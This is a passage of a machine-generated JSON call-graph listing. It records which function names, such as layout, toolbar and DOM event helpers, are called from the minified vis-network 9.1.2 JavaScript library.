{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_validatePositionAndContinue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_validatePositionAndContinue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getCenterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_findCommonParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeBranchNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getActiveEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "levelDownstream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getHubSizes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getActiveEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setMinLevelToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setMinLevelToZero"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_crawlNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addRelation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkIfTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTreeIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createEditButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedNodeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createAddNodeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createAddEdgeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createEditNodeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createEditEdgeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createDeleteButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "editNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createBackButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createSeperator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createDescription"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getNewTargetNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_temporaryBindEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findBorderPositions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_performEditEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "enableEditMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedNodeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDataSet"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createWrappers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createEditButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "showManipulatorToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removeManipulationDOM"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cleanupDOMEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_cleanupTemporaryNodesAndEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_unbindTemporaryUIs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_unbindTemporaryEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_createButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_bindElementEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "onDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": 